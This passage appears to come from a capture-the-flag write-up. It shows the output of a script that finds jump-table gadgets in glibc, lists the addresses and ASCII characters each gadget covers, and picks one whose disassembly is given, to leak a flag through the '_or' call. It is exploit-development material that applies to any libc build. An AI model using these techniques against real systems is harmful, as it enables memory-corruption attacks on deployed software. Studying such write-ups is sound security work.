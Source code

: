 ```
[+] Gadget at 0xd7d42, table with 5 elts, table address = 0x001B0200, element size = 4, valid characters: ' 56y~'
[+] Gadget at 0xdc509, table with 3 elts, table address = 0x001B06B4, element size = 4, valid characters: 'PZs'
[+] Gadget at 0xe6f01, table with 1 elts, table address = 0x001B0CD0, element size = 4, valid characters: 'q'
[+] Gadget at 0xe9c36, table with 1 elts, table address = 0x001B0D24, element size = 4, valid characters: '\'
[+] Gadget at 0xea237, table with 1 elts, table address = 0x001B0DA4, element size = 4, valid characters: '<'
[+] Gadget at 0x1560ed, table with 1 elts, table address = 0x001B3944, element size = 4, valid characters: ' '
[+] Gadget at 0x196d42, table with 14 elts, table address = 0x001BDF20, element size = 4, valid characters: '-.79;AC^dvxz|~'
```

Both gadgets at `0xa84c4` and `0xa8669` seems promising, as they cover a large
subset on the ASCII printable set. Let's start with `0xa84c4`, as it covers all
the digits, which have chances to be present in the final flag. The code of this gadget is:

```
lea     r9,[rip+0x106ee9]
mov     ecx,eax	      
movsxd  rcx,DWORD PTR [r9+rcx*4]
add     rcx,r9
jmp     rcx
```

The "input" is the `eax` register, so we need to target the `_or` call.

As a final note, if in the end we still miss some characters of the flag (for
instance `Z`), we can do another round with another gadget (e.g. `0xa8669`).

One last interesting thing to note is that this script can adapt to any `libc`
binary. Running on the `libc` Debian version 2.31-4, it returns (for `N=5`):

```
[x] Disassembling...
[x] Found 938 indirect calls/jmps. Looking for valid gadgets...
[+] Gadget at 0x5849d, table with 1 elts, table address = 0x00183180, element size = 4, valid characters: 'X'
[+] Gadget at 0x58571, table with 2 elts, table address = 0x001831E8, element size = 4, valid characters: '>g'
[+] Gadget at 0x58f43, table with 6 elts, table address = 0x001836F4, element size = 4, valid characters: '/]bez}'
[+] Gadget at 0x592c6, table with 4 elts, table address = 0x00183900, element size = 4, valid characters: ',Jbz'
[+] Gadget at 0x60ba3, table with 2 elts, table address = 0x00183D0C, element size = 4, valid characters: 'Jb'
[+] Gadget at 0x60f1d, table with 5 elts, table address = 0x00183DBC, element size = 4, valid characters: '.6wz{'
[+] Gadget at 0x6a9c4, table with 3 elts, table address = 0x00184140, element size = 4, valid characters: 'Gcj'
[+] Gadget at 0x6ab09, table with 2 elts, table address = 0x001841C0, element size = 4, valid characters: 'CJ'
[+] Gadget at 0x70cbb, table with 4 elts, table address = 0x001845C0, element size = 4, valid characters: '59CJ'
[+] Gadget at 0x70eeb, table with 2 elts, table address = 0x00184540, element size = 4, valid characters: 'cj'
[+] Gadget at 0x71e2d, table with 4 elts, table address = 0x00184640, element size = 4, valid characters: '#&*5'
[+] Gadget at 0x8b8b5, table with 77 elts, table address = 0x00184C9C, element size = 4, valid characters: '*+,-./01234567:;<=>?@ABCDEFGJKLMNOPQRSTUVWZ[\]^_`abcdefgijklmnopqrstuvwxyz{|}'
[+] Gadget at 0x945c9, table with 88 elts, table address = 0x00184CD4, element size = 4, valid characters: ' !"#$%&'()*,-./0123456789<=>?@ABCDEFGHILMNOPQRSTUVWXY[\]^_`abcdefghijklmnopqrstuvwxz{|}~'
```

[^1]: chances are that, with some work, this disassembling time can be divided by ~20, as it only takes `llvm-objdump` ~500ms to disassemble the whole `libc`, on the same CPU.